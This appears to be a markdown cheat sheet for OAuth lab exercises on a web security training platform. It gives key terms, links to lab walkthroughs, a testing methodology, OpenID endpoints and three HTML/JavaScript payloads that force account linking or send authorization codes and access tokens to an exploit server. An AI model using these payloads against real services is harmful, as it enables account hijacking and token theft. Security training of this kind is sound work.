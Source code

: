 # OAuth - CHEATSHEET +  LABS

## Key Terms
```bash
- SAML based SSO (single sign-on)
- OpenID Connect
- OAuth Grant Types:
	> authorization code
	> implicit (token via browser)
```
## Walkthrough - Most Important Labs
- [Forced-OAuth-profile-linking-(no-state-param+CSRF)](Forced-OAuth-profile-linking-(no-state-param+CSRF).md)

- [OAuth-account-hijacking-via-redirect_uri](OAuth-account-hijacking-via-redirect_uri.md)

- [SSRF-via-OpenID-dynamic-client-registration](SSRF-via-OpenID-dynamic-client-registration.md)

- [Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit)](Stealing-OAuth-access-tokens-via-an-open-redirect-(implicit).md)

## Methodology
```bash
- Search for a specific provider and look for endpoints in the documentation
- response_type=token? -> implicit grant
- No state param? -> CSRF
- OpenID? -> try register + SSRF
- redirect_url? 
    > try arbitrary redirect
    > try path traversal
```
## Cheat Sheet
```bash
# OPENID CONNECT
/.well-known/openid-configuration 
/.well-known/jwks.json
/reg -> redirect_uris, logo_uri  -> registrar usuario + obtener client_id +  SSRF
/client/<client_id/logo 
```
## Payloads examples
```js
<iframe src="<IP>/oauth-linking?code=STOLEN-CODE"></iframe>
//----------------------//
<iframe src="https://<OAUTH-IP>/auth?client_id=<YOUR-CLIENT-ID>f&redirect_uri=<EXPLOIT-SV>&response_type=code&scope=openid%20profile%20email"hidden="hidden"></iframe>
//----------------------//
<script>
  if (!document.location.hash) {
    window.location = 'https://<OAUTH-IP>/auth?client_id=g4c0gltgknmy2ycmupioa&redirect_uri=<IP-LAB>/oauth-callback/../post/next?path=https://exploit-0a4c006b039157ca80ddf7830129001d.exploit-server.net&response_type=token&nonce=1727033259&scope=openid%20profile%20email';
  } else {
    window.location = '/?' + document.location.hash.substr(1);
  }
</script>
```


